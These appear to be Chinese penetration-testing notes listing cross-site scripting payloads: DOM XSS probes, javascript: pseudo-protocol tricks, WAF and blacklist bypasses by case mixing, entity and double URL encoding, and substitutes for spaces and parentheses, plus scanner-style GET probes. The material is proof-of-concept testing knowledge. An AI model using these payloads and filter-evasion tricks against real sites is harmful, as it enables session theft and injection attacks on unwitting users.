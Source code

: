 通过注入，能运行js，则存在。


## **手工测试dom型XSS:**
```
<script>alert(document.cookie)</script>
<script>alert(1)</script>
<img src="1" onerror="">
<img src="1" onerror="alert(1)"> 
<img src=x onerror=alert(233)>




<iframe src=javascript://%0aalert('iframe')>
<embed src="https://c0olw.github.io/pic/1.html">
<audio src=x onerror=confirm("casrc")> 

伪协议：
<iframe src="javascript:alert(111)"></iframe>  //火狐/IE/谷歌都支持
<a href="javascript:alert(111)">aaa</a>
如果在a标签中可以用伪协议绕过。



F12分析前端源码，猜测后端代码
构建dom：
标签闭合
value中的值”闭合
//注释去掉后面
有实体化编码，判断是不是只实体化了",没有实体化'

“><a hrerf="javascript:alert(1)"> <
```


## **绕过黑名单/WAF注入XSS:**
<https://xz.aliyun.com/t/4067?time__1311=n4%2BxnD0DyGYQqxmw405%2BbWe4iKq0K%3DNPG8eD>
关键词输入被过滤：
```
过script,用<img> <Script> <sscriptcript> 
过alert,用prompt(),comfrim()

使用string.fromCharCode()编码后，在用函数解码
```

hackbar工具混淆：
```
对字母进行html编码绕过检测
如：javascript->&#106;....
```

空格输入被过滤:
```
用%0d(回车) %0a(换行) %0c  /  /**/代替
```

括号()输入被过滤:
```
用` `代替，如：alert`1`
```

BP中有各种xss一句话，可用于绕过/报告用
![](.topwrite/assets/image_1709294242750.png)




```
GET /xss.php?name=HttP://bxss.me/t/xss.html?%00
GET /xss.php?name=test'"()&%<acx><ScRiPt >HS1L(9479)</ScRiPt>
GET /xss.php?name='"()%26%25<acx><ScRiPt%20>QZWL(9781)</ScRiPt>
GET /xss.php?name=bxss.me/t/xss.html?%00
GET /xss.php?name=test9565139 
GET /xss.php?name=test9565139<
GET /xss.php?name=acu7581%EF%BC%9Cs1%EF%B9%A5s2%CA%BAs3%CA%B9uca7581
GET /xss.php?name=acux3233%C0%BEz1%C0%BCz2a%90bcxuca3233
GET /xss.php?name={{49286*49078}}
GET /xss.php?name=test9279'();}]9817
GET /xss.php?wvstest=javascript:domxssExecutionSink(1,"'/"%3E%3Cxsstag%3E()locxss")
GET /xss.php?name=%2574%2565%2573%2574%2539%2537%2535%2530%2527%2528%2529%253B%257D%255D%2539%2534%2538%2538    # 两次 urlencode
GET /xss.php?name=test</script><script>V5vL(9783)</script>
GET /xss.php?name=test<W7PZRN>WTTZZ[!%2B!]</W7PZRN>
```

